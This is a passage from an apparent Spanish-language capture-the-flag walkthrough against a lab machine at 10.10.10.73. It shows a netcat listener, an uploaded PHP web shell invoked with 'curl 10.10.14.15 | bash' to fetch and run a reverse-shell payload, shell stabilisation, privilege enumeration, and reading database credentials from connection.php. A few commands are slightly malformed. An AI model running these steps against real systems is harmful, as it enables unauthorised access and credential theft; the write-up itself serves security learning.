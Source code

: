     ```bash
    python3 -c http.server 80
    ```

1. nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. desde la web lanzamos el comando 
```bash
 http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=curl 10.10.14.15 | bash 
```


ganamos accesso al systema como el usuario www-data

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Vemos aqui que no podemos leer la flag porque no podemos entrar en las carpetas de **yossi** o de **moshe**. Tenemos que hacer un user pivoting.

### User Pivoting {-}

```bash
whoami
cd /home
cd yossi
cd moshe
sudo -l
find \-perm -4000 2/dev/null
cd /var/www/html
ls
cat connection.php
```

Aqui vemos que no tenemos permisos interesantes pero vemos en el ficher 
```bash
 connection.php 
```
 unas credenciales para el usuario 
```bash
 moshe 
```
 para la base de datos.
